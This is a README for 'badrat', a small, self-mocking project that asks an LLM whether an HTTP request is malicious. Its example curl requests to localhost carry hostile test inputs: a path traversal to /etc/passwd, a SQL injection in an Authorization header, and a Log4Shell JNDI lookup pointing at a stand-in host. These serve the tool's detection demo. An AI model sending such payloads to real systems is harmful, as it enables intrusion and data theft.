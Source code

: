 # badrat

We all know LLMs are 100% reliable so let's have it check if a HTTP request is potentially malicious or not.

## Development

Make sure `GROQ_API_KEY` is set, and then:

```sh
# In one shell
make dev-fastapi

# In another shell
make dev-baml
```

Now you can send requests to check how malicious they are:
```sh
curl -s http://localhost:8000/slim?path=../../ | jq
# {
#   "possibly_dangerous": true
# }

curl -s http://localhost:8000/complete?path=../../../etc/passwd&user=admin&password=letmein \
    -H "Authorization: Bearer Robert'); DROP TABLE students; --" \
    -H "Cookie: session_id=1234567890abcdef; expires=Fri, 31-Dec-9999 23:59:59 GMT" \
    -H "X-API-KEY: topsecretkey" \
    -H "Referer: https://example.com/malicious-referrer" \
    -H 'User-Agent: ${jndi:ldap://example.com/malicious-payload}' \
    | jq
# {
#     "possibly_dangerous": true,
#     "dangerous_parameters": [
#     {
#         "parameter_path": "url.query.path",
#         "value": "../../../etc/passwd"
#     },
#     {
#         "parameter_path": "headers.authorization",
#         "value": "Bearer Robert'); DROP TABLE students; --"
#     },
#     {
#         "parameter_path": "headers.user-agent",
#         "value": "${jndi:ldap://example.com/malicious-payload}"
#     }
#     ]
# }
```
